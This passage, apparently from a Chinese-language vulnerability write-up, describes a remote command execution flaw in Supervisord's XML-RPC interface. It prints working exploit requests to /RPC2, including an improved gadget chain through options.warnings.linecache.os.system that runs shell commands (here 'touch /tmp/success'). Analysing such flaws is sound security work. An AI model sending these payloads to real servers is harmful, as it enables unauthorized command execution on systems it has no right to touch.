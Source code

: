 ```http
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import os;os.system('touch /tmp/success');</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
```

当然，漏洞发现者找到的这个`self.rpcinterface.supervisor.supervisord.options.execve`其实不是那么好用，原因是，Python的`os.execve`函数会使用新进程取代现有的进程。也就是说，这里会导致Supervisord本身退出。

### 3.2 漏洞POC改进

这个漏洞和一些反序列化漏洞类似，都是去找到一个不安全的对象。那么，除了原作者给出的`self.rpcinterface.supervisor.supervisord.options.execve()`，是不是还可以找到其他更好用的利用链呢？

通过一系列调试，我找到了一个利用链：`supervisor.supervisord.options.warnings.linecache.os.system()`，其实目的很简单，就是想方设法找到非下划线开头的属性中，是否有引用os模块。linecache中引用了os模块：

![](imgs/2.jpg)

所以，构造如下数据包：

```http
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 275

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```
